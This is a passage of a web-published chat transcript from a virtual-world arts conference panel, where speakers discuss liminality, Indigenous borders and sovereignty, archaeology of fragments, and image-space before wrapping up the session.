						[13:02]  Chloe Mahfouz: the two versions are written in completely different tones<br />
						[13:02]  Chloe Mahfouz: anyway<br />
						[13:02]  Chloe Mahfouz: I think I should move on<br />
						[13:02]  You: we also have a large group of people in AV trying desperately to get here<br />
						[13:02]  You: yes<br />
						[13:02]  Chloe Mahfouz: next slide please<br />
						[13:03]  Chloe Mahfouz: this is I90, Upstate NY<br />
						[13:03]  Chloe Mahfouz: Billboards that have been spraypainted<br />
						[13:03]  Chloe Mahfouz: next slide please<br />
						[13:03]  Chloe Mahfouz: order is backwards<br />
						[13:03]  Chloe Mahfouz: ok next slide<br />
						[13:03]  Chloe Mahfouz: yes<br />
						[13:04]  Chloe Mahfouz: this is the way one experinces the threshhold of the Onondaga reservation<br />
						[13:04]  Chloe Mahfouz: a sign on the highway<br />
						[13:04]  Chloe Mahfouz: what is visible are the two very different billboards on both slides<br />
						[13:04]  Chloe Mahfouz: please go back on the slides<br />
						[13:05]  Chloe Mahfouz: Who decides ?<br />
						[13:05]  Chloe Mahfouz: And that the Onondaga and the Oneida, and within themselves don't agree about the reservation structures, along with Turning stone Casino<br />
						[13:06]  Chloe Mahfouz: These border areas, crossings, sovereignty<br />
						[13:06]  Chloe Mahfouz: are things I am working one, exploring how they can be visualized, captured<br />
						[13:07]  Chloe Mahfouz: Liminal also refers to Van Gennep's &quot;Rites Of Passage'<br />
						[13:07]  Chloe Mahfouz: as a state after the rites of separation<br />
						[13:07]  Chloe Mahfouz: liminal, not one or the other<br />
						[13:07]  Chloe Mahfouz: they way I feel everyday<br />
						[13:07]  Chloe Mahfouz: even in my first life<br />
						[13:08]  Chloe Mahfouz: but also as an artist/curator<br />
						[13:08]  Chloe Mahfouz: and finally reintegration as the third step<br />
						[13:08]  Chloe Mahfouz: I am chatted out, was that clear in any way?<br />
						[13:08]  You: yes I think so<br />
						[13:09]  Chloe Mahfouz: next slide<br />
						[13:09]  Chloe Mahfouz: will Laura present now?<br />
						[13:09]  You: since we are running a little late lets move to Laura<br />
						[13:09]  Chloe Mahfouz: thanks for listening<br />
						[13:10]  J0E Languish: I am an archaeologist -- I chose images that represent the fragmentary, disassociated quality of my access to the past.<br />
						[13:10]  Doug Whittaker: thx chloe<br />
						[13:10]  Natberg Sternberg: yeh thanx<br />
						[13:10]  Chloe Mahfouz: thanks Doug, glad to know you are out there<br />
						[13:10]  J0E Languish: I am also an anthropologist who is interested in the crafting of identity through art, performance, aesthetic choices. Always already in the world.<br />
						[13:10]  Chloe Mahfouz: Natberg<br />
						[13:11]  J0E Languish: ethan you can just run the slides in the background<br />
						[13:11]  J0E Languish: I am also an anthropologist who is interested in the crafting of identity through art, performance, aesthetic choices. Always already in the world.<br />
						[13:11]  J0E Languish: I am intrigued by the (partial, fragmentary) analogy between the archeology of the physical world and a possible archeology of virtual worlds.<br />
						[13:12]  J0E Languish: I experience Brad and Renee's work differently when I see their words.<br />
						[13:12]  J0E Languish: I experience Brad and Renee's work differently when I see their words.<br />
						[13:12]  Chloe Mahfouz: words or worlds<br />
						[13:12]  J0E Languish: So if as an archaeologist I recover only the words or only the images or parts of them all jumbled up (which seems entirely possible) -- how can I hope to understand their intended meaning?<br />
						[13:13]  J0E Languish: I have to create a new meaning from the fragments. Is this a partial truth? An approximation? A best guess?<br />
						[13:13]  J0E Languish: A transition into a liminal place -- not my meaning , not yours? A transformational space.<br />
						[13:14]  J0E Languish: So when Brad creates his world and invites us to it<br />
						[13:14]  J0E Languish: we change it as we cross the threshold<br />
						[13:15]  J0E Languish: did it change for you, Brad?<br />
						[13:15]  Kliger Dinkin: everytime I cross it..<br />
						[13:16]  J0E Languish: is this an experience of time?<br />
						[13:16]  Kliger Dinkin: in the case of my work, it is a question of space... unfolding through movement<br />
						[13:17]  Kliger Dinkin: which I guess somehow rejoins the idea of blocs of time, but indirectly...space is the medium...<br />
						[13:18]  Kliger Dinkin: Image-Space, to be precise<br />
						[13:18]  J0E Languish: as an archaeologist this all seems very flat to me -- time is erased by all the movement<br />
						[13:18]  J0E Languish: i see time as layers -- old is deep, new is surface<br />
						[13:19]  You: I think that is fascinating, like brads space<br />
						[13:19]  Kliger Dinkin: if I can turn this back to you for a second Laura, and then try to come back to what you are asking...<br />
						[13:19]  Kliger Dinkin: you speak of &quot;fragements&quot; as a .. media, somehow...<br />
						[13:20]  Kliger Dinkin: August Choissy, the 18th cen French archtiect /historian, constructed his &ldquo;History of Architecture&rdquo; based on the revelation of fragments...<br />
						[13:20]  Kliger Dinkin: but passing through a very specific, precise, controlled represenational system: axonometry<br />
						[13:21]  Kliger Dinkin: how do representational structures relate to your work?... the same could be posed to Ren&eacute;e when she wants to &laquo; exploring how they can be visualized, captured &raquo;<br />
						[13:22]  J0E Languish: we spend huge amounts of effort mapping fragments in space<br />
						[13:22]  Chloe Mahfouz: question is whether I use a framework of art history to contextualize them<br />
						[13:22]  Kliger Dinkin: and I can somehow connect this back to my spaces... replacing the depth lost by the flattening out of time....<br />
						[13:23]  Kliger Dinkin: with levels, layers of space constructed with Image.<br />
						[13:24]  Kliger Dinkin: or Images<br />
						[13:25]  Chloe Mahfouz: if I may jump in with the use of metaphor<br />
						[13:25]  J0E Languish: please<br />
						[13:25]  Chloe Mahfouz: the literal recognition of symbolic reference, media<br />
						[13:25]  Chloe Mahfouz: the deerskin representing land<br />
						[13:26]  Chloe Mahfouz: currency<br />
						[13:26]  Chloe Mahfouz: projected onto salt, a former currency<br />
						[13:26]  Chloe Mahfouz: ground, earth<br />
						[13:26]  Chloe Mahfouz: the place in space of the billboards, the US signage system as a marker<br />
						[13:27]  Chloe Mahfouz: This type of image building, in a way, decolonzing images if your will<br />
						[13:27]  Chloe Mahfouz: though I must say I don't explain them<br />
						[13:28]  Chloe Mahfouz: rather I use 'inherent' cultural metaphors, maybe that we all recognize or have different interpretations of meanings<br />
						[13:29]  J0E Languish: I think you leave a little mystery there for me to make my own sense of -- in my world<br />
						[13:29]  Chloe Mahfouz: I attempt to be concise, but make the 'reader' curious<br />
						[13:29]  Chloe Mahfouz: just like collaging fragments of text<br />
						[13:30]  J0E Languish: I want to know you -- to experience your meaning but I am always an Other<br />
						[13:30]  Chloe Mahfouz: questioning the remains of 'history' through printed matter<br />
						[13:30]  Chloe Mahfouz: and then using word, text as image<br />
						[13:30]  Chloe Mahfouz: yes, and I welcome you<br />
						[13:30]  J0E Languish: thank you<br />
						[13:31]  Chloe Mahfouz: that is why the slippage of the self is so important<br />
						[13:31]  Chloe Mahfouz: another liminal state<br />
						[13:31]  You: Okay, we need to wrap up, Laura has to go<br />
						[13:31]  You: but you intrigue her<br />
						[13:31]  Chloe Mahfouz: hence for me getting an avatar was a natural step<br />
						[13:31]  Chloe Mahfouz: in exploring this relationship to my 'other'<br />
						[13:31]  You: we have to find a way to cntinue this conversation<br />
						[13:31]  Chloe Mahfouz: maybe another time<br />
						[13:32]  Kliger Dinkin: with the inflection of out voices<br />
						[13:32]  Chloe Mahfouz: date?<br />
						[13:32]  You: I feel we have barely scratched the surface<br />
						[13:32]  Chloe Mahfouz: we know this works at least<br />
						[13:32]  You: I will make a point of scheduling a reprise of this session.<br />
						[13:32]  J0E Languish: I definitely need my own Other, though I appreciate the loan of J0e's body<br />
						[13:32]  You: I think the voice will help us out too, but not SKYPE<br />
						[13:32]  Chloe Mahfouz: I look forward, also to maybe exchange some emails in between<br />
						[13:32]  Kliger Dinkin: i'm not sure if Joe suits you?<br />
						[13:32]  You: are there any quick quesitons from the audience?<br />
						[13:33]  Chloe Mahfouz: he looks good on you<br />
						[13:33]  Chloe Mahfouz: really<br />
						[13:33]  Doug Whittaker: Links on the conference web page?<br />
						[13:33]  Doug Whittaker: 4 mor inro<br />
						[13:33]  Doug Whittaker: info<br />
						[13:33]  You: yes, I shall put text of this online and invite our speakers to respond<br />
						[13:34]  Kliger Dinkin: ok<br />
						[13:34]  You: it shall be at http://arsvirtua.com/borders/remains.php<br />
						[13:34]  Chloe Mahfouz: sounds good<br />
						[13:34]  J0E Languish: it was fun<br />
						[13:34]  Kliger Dinkin: it was challenging<br />
						[13:34]  Chloe Mahfouz: yes, thanks for inviting me<br />
						[13:34]  Chloe Mahfouz: much to think about<br />
						[13:34]  Chloe Mahfouz: I would like another session to continue our stream of thought<br />
						[13:35]  Chloe Mahfouz: and James, you Ok with this? did this work for you in some way?<br />
						[13:36]  You: so we can keep talking about this subject<br />
						[13:36]  You: or Thnntn can start a building class soon<br />
						[13:37]  J0E Languish: Hello every one J0e is J0e again<br />
						[13:37]  Chloe Mahfouz: bye Joe<br />
						<br />
						[13:37]  You: james had to step out so this is thommas now<br />
						[13:37]  Chloe Mahfouz: ok<br />
						[13:37]  Chloe Mahfouz: I am going home to amsterdam , 1st life<br />
						[13:38]  You: \I think this was a brave new experimentt and it went well for chat<br />
						[13:38]  You: laura had to go but she was very excited by the presentation'<br />
						[13:38]  Chloe Mahfouz: yes, much to say about technology<br />
						[13:39]  Chloe Mahfouz: thank god everyone is used to writing/typing<br />
						[13:39]  Chloe Mahfouz: I am just a bit fried<br />
						[13:39]  Chloe Mahfouz: Brad, we keep in touch?<br />
						[13:39]  Kliger Dinkin: me too... i need dinner<br />
						[13:39]  Chloe Mahfouz: Thomas, thanks<br />
						[13:39]  You: yes it was intense.<br />
						[13:40]  You: thank you so much for participating<br />
						[13:40]  Chloe Mahfouz: I will come by and visit you at work, is that OK?<br />
						[13:40]  Doug Whittaker: Thank you All!<br />
						[13:40]  Kliger Dinkin: sure:)<br />
						[13:40]  You: take care Doug<br />
						[13:40]  Chloe Mahfouz: thanks, going home soon<br />
						[13:41]  Kliger Dinkin: thnx James... I'd really like to get the audio feed together, though...<br />
						[13:42]  Kliger Dinkin: that would have been something... I was nervous all day about talking while disembodied...<br />
						[13:42]  Natberg Sternberg: Thanks guys - very provocational. so, will the panels tomorrow also be chat instead of voice then?<br />
						[13:42]  You: how do you think it went, it sounded wonderful to me<br />
						[13:43]  You: Nat we will be leveraging another tech that we think should be mmore stable<br />
						[13:44]  Natberg Sternberg: Paper cups and strings?<br />
						[13:44]  Kliger Dinkin: it went very well... in my experience with chat conferences, the interaction has to be pretty dense, though... I think we were all prepared to speak, and were ready for that rythmrhythm<br />
						[13:44]  You: mega phones &lt;BFG&gt;
                        <br />
                        <br />
      <br />

      


</div>

<?php include("../inc/footer.php"); ?></div>
</body>
</html>
